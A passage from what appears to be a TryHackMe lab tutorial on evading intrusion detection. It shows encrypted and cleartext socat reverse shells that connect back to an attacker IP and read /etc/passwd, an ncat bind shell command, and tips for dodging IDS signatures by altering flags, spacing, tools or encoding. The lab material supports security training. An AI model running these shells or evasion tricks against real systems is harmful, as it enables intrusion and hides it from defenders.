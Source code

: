 Pentester Terminal

```shell-session
pentester@TryHackMe$ socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT
[...]
2022/02/24 15:54:28 socat[7620] N starting data transfer loop with FDs [7,7] and [1,1]

cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
[...]
```

However, if the IDS/IPS inspects the traffic, all the packet data will be encrypted. In other words, the IPS will be completely oblivious to exchange traffic and commands such as `cat /etc/passwd`. The screenshot below shows how things appear on the wire when captured using Wireshark. The highlighted packet contains `cat /etc/passwd`; however, it is encrypted.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/3352df7b863f48cfaf0aee8f308e95a9.png)

As you can tell, it is not possible to make sense of the commands or data being exchanged. To better see the value of the added layer of encryption, we will compare this with an equivalent `socat` connection that does not use encryption.

1. On the attacker’s system, we run `socat -d -d TCP-LISTEN:4443,fork STDOUT`.
2. On the victim’s machine, we run `socat TCP:10.20.30.129:4443 EXEC:/bin/bash`.
3. Back on the attacker’s system, we type `cat /etc/passwd` and hit Enter/Return.

Because no encryption was used, capturing the traffic exchanged between the two systems will expose the commands, and the traffic exchanged. In the following screenshot, we can see the command sent by the attacker.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/08f8e9b8cdae4878dab23cbb57dfbbe2.png)

Furthermore, it is a trivial task to follow the TCP stream as it is in cleartext and learn everything exchanged between the attacker and the target system. The screenshot below uses the “Follow TCP Stream” option from Wireshark.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/40f0e2f428db90b8b57d708d77eae99c.png)

#### Modify the data

Consider the simple case where you want to use Ncat to create a bind shell. The following command `ncat -lvnp 1234 -e /bin/bash` tells `ncat` to listen on TCP port 1234 and bind Bash shell to it. If you want to detect packets containing such commands, you need to think of something specific to match the signature but not too specific.

* Scanning for `ncat -lvnp` can be easily evaded by changing the order of the flags.
* On the other hand, inspecting the payload for `ncat -` can be evaded by adding an extra white space, such as `ncat  -` which would still run correctly on the target system.
* If the IDS is looking for `ncat`, then simple changes to the original command won’t evade detection. We need to consider more sophisticated approaches depending on the target system/application. One option would be to use a different command such as `nc` or `socat`. Alternatively, you can consider a different encoding if the target system can process it properly.

